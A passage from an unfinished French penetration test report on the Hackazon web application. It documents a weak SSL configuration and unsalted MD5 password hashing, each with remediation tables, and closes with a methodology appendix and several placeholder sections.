Lors de l'audit, des problèmes de configuration SSL ont été identifiés, affectant la sécurité des communications entre les utilisateurs et le serveur, augmentant ainsi le risque d'attaques de type "Man-in-the-Middle" (MITM). L'absence de HSTS et l'utilisation de suites de chiffrement faibles sont deux points critiques qui compromettent la sécurité des connexions.

---





Les captures d'écran ci-dessus montrent les résultats d'un scan SSL, révélant l'absence de HSTS et la prise en charge de suites de chiffrement obsolètes.

---

**Remediation**

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-SSL : Recommandation pour sécuriser la configuration SSL}}} \\ \hline
\textbf{Complexité estimée : Faible} & \textbf{Travail/coût estimé : Faible} & \textbf{Priorité estimée : 2 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Il est recommandé de renforcer la configuration SSL en appliquant les actions suivantes :
    1. Activer HSTS : Permet de forcer les navigateurs à utiliser des connexions HTTPS uniquement, même si une tentative est faite en HTTP. Cela protège contre les attaques de redirection et de downgrade.
    2. Désactiver les suites de chiffrement faibles : Les protocoles et ciphers obsolètes (par exemple, TLS 1.0, TLS 1.1, et des ciphers RC4) doivent être désactivés pour empêcher les attaques exploitant ces algorithmes faibles.
    3. Configurer une liste de ciphers robustes et modernes : Utiliser uniquement des ciphers modernes et recommandés tels que AES-GCM avec TLS 1.2 ou supérieur.
} \\
\hline
\end{tabular}
\end{table}

##### FaibleRègleDeStockageDesMotsDePasse

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-WEAK-PASSWORD-STORAGE : Faible règle de stockage des mots de passe}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Élevé} & \textbf{Facile} & \textbf{4 / 4} \\
\hline
\end{tabular}
\end{table}

L'audit a révélé une mauvaise pratique de stockage des mots de passe. Les mots de passe sont hachés en utilisant l'algorithme **MD5**, qui est considéré comme obsolète et non sécurisé. De plus, le stockage des mots de passe sans salage approprié rend l'application vulnérable aux attaques par tables arc-en-ciel.

---






Les captures d'écran ci-dessus montrent l'utilisation de MD5 sans salage lors du hachage des mots de passe, ce qui réduit considérablement la sécurité du stockage des informations d'authentification.

---

**Remediation**

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-WEAK-PASSWORD-STORAGE : Recommandation pour renforcer le stockage des mots de passe}}} \\ \hline
\textbf{Complexité estimée : Moyenne} & \textbf{Travail/coût estimé : Modéré} & \textbf{Priorité estimée : 4 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Il est recommandé d'utiliser des algorithmes de hachage modernes tels que **bcrypt** ou **Argon2** avec un salage fort pour stocker les mots de passe. Ces algorithmes sont conçus pour résister aux attaques par force brute et offrent des options de salage automatique.
    1. **Remplacer MD5** par **bcrypt** ou **Argon2** pour garantir une meilleure sécurité.
    2. **Ajouter un salage unique** à chaque mot de passe avant de le hacher afin d'éviter les attaques par tables arc-en-ciel.
    3. **Renouveler les mots de passe** : Inviter les utilisateurs à mettre à jour leurs mots de passe afin de s'assurer qu'ils sont stockés avec les nouvelles pratiques de sécurité.
} \\
\hline
\end{tabular}
\end{table}


#### Processus métier

> FIXME: Assessment of business logic flaws.

#### Côté client

> FIXME: Client-side vulnerabilities (e.g., JavaScript security, DOM-based XSS).


# 5. Annexe

## 5.1 Présentation de la démarche

La démarche adoptée pour ce test d’intrusion s’inscrit dans une méthodologie de sécurité éprouvée, basée sur les bonnes pratiques en matière de tests de pénétration. Ce test a été réalisé en suivant une approche **boîte noire**, simulant un attaquant sans connaissance préalable des infrastructures internes de l’application Hackazon.

Le test s’est déroulé en plusieurs étapes, chaque phase étant conçue pour identifier et exploiter les vulnérabilités potentielles dans l’infrastructure et l'application web.

### Méthodologie suivie :

1. **Collecte d’informations** (*Reconnaissance*) :
   - L’objectif de cette première phase est d’acquérir le maximum d’informations sur l’infrastructure et l’application ciblée. Des techniques de reconnaissance passive et active ont été employées pour découvrir les technologies utilisées, les points d’entrée potentiels, ainsi que les services exposés.
   - Outils utilisés : **Nmap**, **Whois**, **Google Dorking**, et divers outils de reconnaissance open-source.

2. **Analyse des vulnérabilités** (*Scanning*) :
   - Cette phase consiste à identifier les vulnérabilités potentielles sur les services exposés et les points d’entrée de l’application web. Un audit approfondi a été réalisé pour détecter des failles telles que les injections SQL, les failles XSS, les mauvaises configurations de serveur, ou encore la gestion incorrecte des sessions.
   - Outils utilisés : **Burp Suite**, **OWASP ZAP**, **SQLMap**.

3. **Exploitation des vulnérabilités** (*Exploitation*) :
   - Lors de cette étape, les vulnérabilités détectées sont exploitées afin de démontrer leur impact réel. Cela inclut l’extraction de données sensibles, la compromission de comptes utilisateurs, ou encore le contournement des mécanismes de sécurité.
   - Des preuves de concept (PoC) ont été fournies pour les vulnérabilités les plus critiques afin de montrer leur faisabilité.

4. **Post-exploitation et recommandations** :
   - Une fois les vulnérabilités exploitées, une analyse plus approfondie est réalisée pour déterminer l’étendue des dommages potentiels. Cette phase permet également de formuler des recommandations précises sur les correctifs à apporter pour chaque vulnérabilité identifiée.
   - Outils utilisés : **SQLMap** pour la récupération des bases de données, **Burp Suite** pour l’analyse des réponses serveur.

### Limites et contraintes :

- Le test a été réalisé dans des conditions de temps limitées, ce qui a restreint l'exploration exhaustive de toutes les fonctionnalités de l’application.
- L’approche **boîte noire** ne permet pas d’explorer certaines vulnérabilités internes ou logicielles, qui auraient pu être visibles avec un accès direct au code source ou aux environnements de développement.


## 5.2 Présentation des résultats

> FIXME: Additional detailed results, if necessary.

## 5.3 Terminologie des risques

> FIXME: Glossary of risk-related terms used in the report.
